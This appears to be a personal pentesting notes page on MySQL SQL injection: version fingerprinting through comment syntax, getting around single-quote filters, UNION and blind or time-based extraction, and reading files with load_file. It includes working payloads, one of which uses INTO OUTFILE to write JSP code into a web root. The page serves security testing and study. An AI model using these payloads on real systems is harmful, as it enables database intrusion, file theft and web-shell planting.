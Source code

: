 # MySQL
---
- **[[#Fingerprinting MySQL]]**
- **[[#Attack Vectors]]**
---
MySQL comes with at least four versions which are used in production worldwide, `3.23.x`, `4.0.x`, `4.1.x` and `5.0.x`. Every version has a set of features proportional to version number.
-   From Version 4.0: UNION
-   From Version 4.1: Subqueries
-   From Version 5.0: Stored procedures, Stored functions and the view named `INFORMATION_SCHEMA`
-   From Version 5.0.2: Triggers

It should be noted that for MySQL versions before 4.0.x, only Boolean or time-based Blind Injection attacks could be used, since the subquery functionality or `UNION` statements were not implemented.
## The Single Quotes Problem
 #### Bypass the need of single quotes
 Let’s suppose we want to know the value of a field named `password` in a record.
 1.  Password like `'A%'`
2.  The ASCII values in a concatenated hex: `password LIKE 0x4125`
3.  The char() function: `password LIKE CHAR(65,37)`

## Multiple Mixed Queries
MySQL library connectors do not support multiple queries separated by `;`
# Fingerprinting MySQL
When a comment block `'/**/'` contains an exclamation mark `'/*! sql here*/'` it is interpreted by MySQL.

Example:
```sql
1 /*! and 1=0 */
```
## Versions
using comment fingerprinting with a version number 
```sql
/*!40110 and 1=0*/
```
which means
```txt
if(version >= 4.1.10)
   add 'and 1=0' to the query.
```
***These are equivalent as the result is the same.***

**In band injection:**
```sql
1 AND 1=0 UNION SELECT @@version /*
```
**Inferential injection:**
```sql
1 AND @@version like '4.0%'
```
# Attack Vectors
If the connected user has `FILE` privileges and single quotes are not escaped, the `into outfile` clause can be used to export query results in a file.
```sql
Select * from table into outfile '/tmp/file'
```
> Note: there is no way to bypass single quotes surrounding a filename. So if there’s some sanitization on single quotes like escape `\'` there will be no way to use the `into outfile` clause.

#### Write a payload to a file
```sql
1 limit 1 into outfile '/var/www/root/test.jsp' FIELDS ENCLOSED BY '//'  LINES TERMINATED BY '\n<%jsp code here%>';
```

 - Results are stored in a file with `rw-rw-rw` privileges owned by MySQL user and group.
 -  Where `/var/www/root/test.jsp` will contain:
`//field values// ] <%jsp code here%>`

#### Read from a File
```sql
load_file('filename')
```

# Blind SQL Injection
-   String Length:
    -   `LENGTH(str)`
-   Extract a substring from a given string:
    -   `SUBSTRING(string, offset, #chars_returned)`
-   Time based Blind Injection:
    -   BENCHMARK and SLEEP `BENCHMARK(#ofcycles,action_to_be_performed)` The benchmark function could be used to perform timing attacks when blind injection by boolean values does not yield any results. See. `SLEEP()` (MySQL > 5.0.x) for an alternative on benchmark.